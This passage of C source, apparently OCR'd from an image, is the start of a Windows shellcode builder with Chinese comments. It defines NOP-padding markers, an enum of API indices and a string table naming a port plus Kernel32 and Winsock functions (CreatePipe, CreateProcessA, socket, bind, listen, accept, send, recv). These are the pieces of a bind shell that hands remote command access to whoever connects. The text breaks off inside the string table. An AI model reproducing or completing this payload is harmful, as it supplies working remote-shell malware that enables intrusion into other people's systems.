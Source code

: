 #define PROC_BEGIN __asm  _emit 0x90 __asm  _emit 0x90 __asm  _emit 0x90 __asm  _emit 0x90\
                   __asm  _emit 0x90 __asm  _emit 0x90 __asm  _emit 0x90 __asm  _emit 0x90
#define PROC_END PROC_BEGIN
//－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－－
enum{       //Kernel32
            _CreatePipe,
            _CreateProcessA,
            _CloseHandle,
            _PeekNamedPipe,
            _ReadFile,
            _WriteFile,
            _ExitProcess,

            //WS2_32
            _socket,
            _bind,
            _listen,
            _accept,
            _send,
            _recv,
            _ioctlsocket,
            _closesocket,

            //本机测试User32
            _MessageBeep,
            _MessageBoxA,
            API_num
};

//
//代码这里开始
//
int __cdecl main(int argc, char **argv)
{
  //shellcode中要用到的字符串
  static char ApiStr[]="\x1e\x6c"   //端口地址

            //Kernel32的API函数名称
            "CreatePipe""\x0"
            "CreateProcessA""\x0"
            "CloseHandle""\x0"
            "PeekNamedPipe""\x0"
            "ReadFile""\x0"
            "WriteFile""\x0"
            "ExitProcess""\x0"

            //其它API中用到的API
            "wsock32.dll""\x0"
            "socket""\x0"
            "bind""\x0"
            "listen""\x0"
            "accept""\x0"
            "send""\x0"
            "recv""\x0"
            "ioctlsocket""\x0"
            "closesocket""\x0"
            //本机测试
            "user32.dll""\x0"
            "MessageBeep""\x0"
            "MessageBoxA""\x0"
